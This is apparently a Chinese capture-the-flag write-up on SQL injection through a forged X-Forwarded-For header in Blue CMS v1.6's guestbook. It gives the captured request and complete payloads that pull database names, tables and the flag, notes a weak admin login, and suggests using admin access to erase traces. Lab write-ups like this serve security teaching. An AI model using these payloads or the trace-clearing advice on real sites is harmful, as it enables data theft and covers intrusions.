 ```yaml
---
title: "Blue CMS v1.6 留言区存在 XFF 伪造漏洞"
date: 2024-02-15
description: "留言区获取 ip 的函数存在 SQL 注入点，在 POST 请求头伪造 XFF 可以实现注入"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 概述

这是个靶场，提示 header 注入。打开网页的留言区发现了留言显示 ip 地址，因此想到伪造 X-FORWARDED-FOR。最终我们在留言区将留言作为回显拿到了 flag。

## 找到注入点

打开靶场后看到如下界面。

![sqli5](/images/sqli1/sqli5-5.png)

发现可以用弱口令登录管理员后台。

![sqli5](/images/sqli1/sqli5-6.png)

如果是真实场景我们可以考虑尝试在后台挖别的漏洞，但是考虑到靶场提示 flag 用到 http-header 做 sql 注入，我们考虑先回原来的网站尝试寻找能显示 ip 的地方。

（事后发现登录管理员权限也是有意义的，主要是在拿到 flag 之后删除痕迹，逃离肇事现场。）

回到原来的页面，找到留言区，发现提交留言会显示 ip 地址。我们用 burp 抓包后在请求里面人为添加一行 xff 进行伪造。

    POST /guest_book.php HTTP/1.1
    Host: 111.9.41.91:53005
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
    X-FORWARDED-FOR: '
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36
    Origin: http://111.9.41.91:53005
    Connection: close
    Referer: http://111.9.41.91:53005/guest_book.php
    Cookie: __tins__713776=%7B%22sid%22%3A%201708012726639%2C%20%22vd%22%3A%201%2C%20%22expires%22%3A%201708014526639%7D; __51cke__=; __51laig__=1; PHPSESSID=eigkieftqj4bb7qg3frjdtav35; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; detail=1
    Upgrade-Insecure-Requests: 1

    content=test&act=send&rid=&page_id=1

我们在 xff 处分别写单引号和 0.0.0.0，看到如下响应。

![sqli5](/images/sqli1/sqli5-3.png)

![sqli5](/images/sqli1/sqli5-4.png)

如上图所示，我们输入的 0.0.0.0 成功替换了网页上的 ip 显示，而单引号引起报错，我们还看到了网站的 insert 语句。现在我们确定 xff 存在注入点。

## 构造 payload

我们利用看到的报错提示构造 payload。

    Error：Query error:
    INSERT INTO blue_guest_book (id, rid, user_id, add_time, ip, content) 
			VALUES ('', '0', '1', '1708020440', '
    1',(select schema_name from information_schema.schemata limit 0,1)),('', '0', '1', '1708020440', '0
    ', 'test')<br><br>

我们的 payload 闭合了前后的引号和括号，理论上会将信息打印在留言区。考虑到留言区没有字数限制，直接使用 group_concat 进行打印。分别构造如下 payload。

    X-FORWARDED-FOR: 1',(select group_concat(schema_name) from information_schema.schemata)),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select group_concat(table_name) from information_schema.tables where table_schema='flag_db')),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select group_concat(column_name) from information_schema.columns where table_schema='flag_db' and table_name='flag')),('', '0', '1', '1708020440', '0

    X-FORWARDED-FOR: 1',(select value from flag_db.flag)),('', '0', '1', '1708020440', '0

看到如下成功的回显。

![sqli5](/images/sqli1/sqli5-0.png)

![sqli5](/images/sqli1/sqli5-2.png)

![sqli5](/images/sqli1/sqli5-1.png)

至此得到 flag=ywaq{IuzxdoJgVd}。

## 其他

一开始用 sqlmap 跑了半天没跑出来，其实这个靶场手工比脚本好很多。一方面是因为 sqlmap 只会缘木求鱼，而我们的 payload 是利用报错信息构造的，sqlmap 没这么智能。另一方面脚本会在页面留下大量垃圾数据，如果没有管理员权限还删不掉。